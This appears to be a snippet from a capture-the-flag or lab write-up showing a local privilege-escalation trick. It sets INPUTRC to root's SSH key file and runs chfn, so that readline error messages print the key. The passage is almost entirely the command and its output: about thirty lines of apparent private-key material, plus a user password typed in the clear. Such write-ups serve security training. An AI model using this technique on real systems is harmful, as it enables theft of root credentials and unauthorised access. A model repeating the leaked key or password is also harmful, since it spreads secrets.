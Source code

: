 Read Private Root SSH Key:
```sh
[maximus@vanguard ~]$ INPUTRC=/root/.ssh/id_rsa chfn
Changing finger information for user.
Password: 100%snoopy
readline: /root/.ssh/id_rsa: line 1: -----BEGIN: unknown key modifier
readline: /root/.ssh/id_rsa: line 2: b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: no key sequence terminator
readline: /root/.ssh/id_rsa: line 3: NhAAAAAwEAAQAAAYEAgtSyNnkkyB8bXV1joyjaDUF1DkZtKDTLlSyLwFIqqmdjse6fTaTP: no key sequence terminator
readline: /root/.ssh/id_rsa: line 4: yUm/Gsq5x1vGCjS4bqjMw5J93drKmxTUTRUDjKXpwqtIGmqr+BpEx61fp1whhMIkAb/tgD: no key sequence terminator
readline: /root/.ssh/id_rsa: line 5: tIGBECaLRD1rdVxxBEElaMxY1s0VI/yOQgYxpDA0qyXvEEGMRVUWNi+xuDhkLmVdtHNCRa: no key sequence terminator
readline: /root/.ssh/id_rsa: line 6: 92fmC3wF7IvNct2ii106Vw5XmyQQl16/nKKxav4EyHTykYlj4abuRSJiVUJ1k5kwZ91no3: no key sequence terminator
readline: /root/.ssh/id_rsa: line 7: 1uUZIq6G9B2tQcCggKjpijyI2EnxlHk0NkiyvxFLiQKB4vHZ2/iU+aTLR2EeFg9wq7Cfyf: no key sequence terminator
readline: /root/.ssh/id_rsa: line 8: Ygvdr1SeIT4GGPt4rrmTEiHQet08XCCBl0QwCol4ziYqAH9S0O70khN/T7SoJIKutMaFaU: no key sequence terminator
readline: /root/.ssh/id_rsa: line 9: wAso3F+J3jKQ1h/cOsFGldiGoH9eXURGqb/T1nW6DZ+KJZpa4ZRQ/Q1yeLFgQVyHMx7p2+: no key sequence terminator
readline: /root/.ssh/id_rsa: line 10: Arab9OYMEZXbYnaXgV3VLla85H2yPwbK1bXcuQyjAAAFgLM6YyezOmMnAAAAB3NzaC1yc2: no key sequence terminator
readline: /root/.ssh/id_rsa: line 11: EAAAGBAILUsjZ5JMgfG11dY6Mo2g1BdQ5GbSg0y5Usi8BSKqpnY7Hun02kz8lJvxrKucdb: no key sequence terminator
readline: /root/.ssh/id_rsa: line 12: xgo0uG6ozMOSfd3aypsU1E0VA4yl6cKrSBpqq/gaRMetX6dcIYTCJAG/7YA7SBgRAmi0Q9: no key sequence terminator
readline: /root/.ssh/id_rsa: line 13: a3VccQRBJWjMWNbNFSP8jkIGMaQwNKsl7xBBjEVVFjYvsbg4ZC5lXbRzQkWvdn5gt8BeyL: no key sequence terminator
readline: /root/.ssh/id_rsa: line 14: zXLdootdOlcOV5skEJdev5yisWr+BMh08pGJY+Gm7kUiYlVCdZOZMGfdZ6N9blGSKuhvQd: no key sequence terminator
readline: /root/.ssh/id_rsa: line 15: rUHAoICo6Yo8iNhJ8ZR5NDZIsr8RS4kCgeLx2dv4lPmky0dhHhYPcKuwn8n2IL3a9UniE+: no key sequence terminator
readline: /root/.ssh/id_rsa: line 16: Bhj7eK65kxIh0HrdPFwggZdEMAqJeM4mKgB/UtDu9JITf0+0qCSCrrTGhWlMALKNxfid4y: no key sequence terminator
readline: /root/.ssh/id_rsa: line 17: kNYf3DrBRpXYhqB/Xl1ERqm/09Z1ug2fiiWaWuGUUP0NcnixYEFchzMe6dvgK2m/TmDBGV: no key sequence terminator
readline: /root/.ssh/id_rsa: line 18: 22J2l4Fd1S5WvOR9sj8GytW13LkMowAAAAMBAAEAAAGAEkqVH/M6ppVdc2WQffSYMoI++1: no key sequence terminator
readline: /root/.ssh/id_rsa: line 19: /yovcT/3yFjWiaI847V1p6q0BU91oi0ybEvTqiKuB0E1nw8ZGUR2WaLf8bhNYLSP6+pUON: no key sequence terminator
readline: /root/.ssh/id_rsa: line 20: MSROJsHaxpABb5n8lbMO6wUKZNiPm83E/ck2MtmEWfB26UQbKljmKIh3TSmX3ZiDsKd2M2: no key sequence terminator
readline: /root/.ssh/id_rsa: line 21: U++AzQYNtPBgyIDEgOLAgcTGNI1I480MjmNcwrTS6aKyHoUNjl0VWZfDr4TyNFQCWDmwMU: no key sequence terminator
readline: /root/.ssh/id_rsa: line 22: EYTukf3kvNsHJHnGNnyUNMSnXPJqGukmk0/pLuwVHTwqlSDr+CT+OJY3btFmoQ7UHwtoTB: no key sequence terminator
readline: /root/.ssh/id_rsa: line 23: c3uqzTlUN34cHbJPCBFz4+gb6feoOLzJR8UFo/dallmCjpyCzCMRZet9EOIVu6KIK8HAoe: no key sequence terminator
readline: /root/.ssh/id_rsa: line 24: 2lZcNeiqryXvW0Lcn+GUUOkWgnMOCTRgWVg2OeDotlakE70xi+NF11xhl1OjHFU163OxZc: no key sequence terminator
readline: /root/.ssh/id_rsa: line 25: MLuYR2fJeMX3iXLFi2gaH0xFrtZkrnTWChkVPcJ/iSW2xG6//qgUitg+y3hDFm2AgBAAAA: no key sequence terminator
readline: /root/.ssh/id_rsa: line 26: wQCJsJoKAmW/we/qF/sEotDt4uphXdzAx9vjSAdtjfP8fq++laQHevvqx8uSss9yVLhNNd: no key sequence terminator
readline: /root/.ssh/id_rsa: line 27: NXhVp41MaMD4MSIQX8RIN5KgOlIUM9u5gjKV5auleAqooeqmIqSwIolF5NfGNmUUCgBPvL: no key sequence terminator
readline: /root/.ssh/id_rsa: line 28: farHMq9uDogervebRSj/EXwkhTQ5vg4PrlAhJ4WnfTFxZdvFYis9j9XuziF5URmsxF1h8u: no key sequence terminator
readline: /root/.ssh/id_rsa: line 29: V6jRjubec23Oj/Jmivq2exBkOpQPygYm2353v8u4xlqPbubJAAAADBALftb6nVeY6BVPN2: no key sequence terminator
readline: /root/.ssh/id_rsa: line 30: YvEJum6ZtmccO6dbwVLkQW8Qcyvaj7PhUXjLcluhHt+7dZuS/ac0IU+RK23q7O+nXxZzDE: no key sequence terminator
```